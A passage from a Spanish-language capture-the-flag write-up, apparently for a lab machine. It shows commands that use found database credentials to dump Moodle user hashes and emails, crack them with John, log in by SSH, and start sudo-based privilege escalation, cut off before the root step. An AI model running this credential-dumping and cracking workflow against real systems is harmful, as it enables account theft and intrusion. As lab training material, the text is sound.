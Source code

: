 Aqui vemos que el PATH es muy pequeño. Copiamos nuestro PATH de la maquina de atacante y la ponemos en la victima

```bash
export PATH=/root/.local/bin:/home/s4vitar/.local/bin:/snap/bin:/usr/sandbox/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/share/games:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/go/bin/:/home/s4vitar/go-workspace/bin:/home/s4vitar/.fzf/bin
export $PATH
which mysqlshow
```

Ahora que tenemos acceso a la utilidad mysqlshow. Nos conectamos con las credenciales.

```bash
mysqlshow -umoodle -pPlaybookMaster2020
mysqlshow -umoodle -pPlaybookMaster2020 moodle
```

Vemos una table **mdl_user**, miramos su contenido con mysql

```bash
mysql -umoodle -pPlaybookMaster2020 -e "select * from mdl_user" moodle
mysql -umoodle -pPlaybookMaster2020 -e "select username,password,email from mdl_user" moodle
```

Copiamos el resultado en un fichero hashes y tratamos el fichero para poder crackearlo con John

#### Crackeando contraseñas con John {-}

```bash
cat hashes | awk '{print $1 ":" $2}'
cat hashes | awk '{print $1 ":" $2}' | sponge hashes
john --wordlist=/usr/share/wordlists/rockyout.txt hashes
```

Encontramos el hash del usuario admin. Pero este usuario no existe en el systema. Mirando el email vemos que el usuario es **jamie**

```bash
ssh jamie@10.10.10.234
```

Ya somos jamie y poder leer el user.txt## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
uname -a
cat /etc/os-release
sudo -l
```

Aqui vemos que podemos lanzar el binario `/usr/sbin/pkg install *` como cualquier usuario sin proporcionar contraseña.
Buscando por [gtfobins](https://gtfobins.github.io/gtfobins/pkg/#sudo) vemos que podemos convertirnos en root con el comando

